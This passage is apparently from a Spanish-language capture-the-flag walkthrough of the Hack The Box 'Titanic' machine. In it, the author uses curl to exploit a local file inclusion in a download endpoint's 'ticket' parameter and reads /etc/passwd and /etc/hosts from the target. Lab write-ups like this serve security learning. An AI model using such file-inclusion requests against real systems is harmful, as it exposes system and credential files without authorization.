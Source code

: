 
Si hacemos una solicitud a `download`, nos mostrará un mensaje indicando que necesitamos enviar un `ticket`

~~~ bash
curl -X GET 'http://titanic.htb/download'                                                              
{"error":"Ticket parameter is required"}
~~~
<br>


# Intrusión / Explotación
---
## Local File Inclusion

Al intentar incluir archivos comunes dentro del parámetro `ticket`, los incluye en la solicitud. Iniciaremos con ver los usuarios existentes en la máquina víctima, donde existe un usuario `developer` además del usuario `root`

~~~ bash
curl -sX GET 'http://titanic.htb/download?ticket=/etc/passwd' | grep sh$
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
~~~

También podemos consultar el archivo `/etc/hosts` para averiguar si existen subdominios u otros hosts definidos internamente

~~~ bash
curl -X GET 'http://titanic.htb/download?ticket=/etc/hosts'     

127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
~~~

Existe un subdominio `dev.titanic.htb`. Lo agregaremos a nuestro archivo `/etc/hosts` para poder resolver ese nombre de dominio

~~~ bash
cat /etc/hosts | grep titanic.htb

10.10.11.55 titanic.htb dev.titanic.htb
~~~


## `Gitea` - Subdomain Analysis
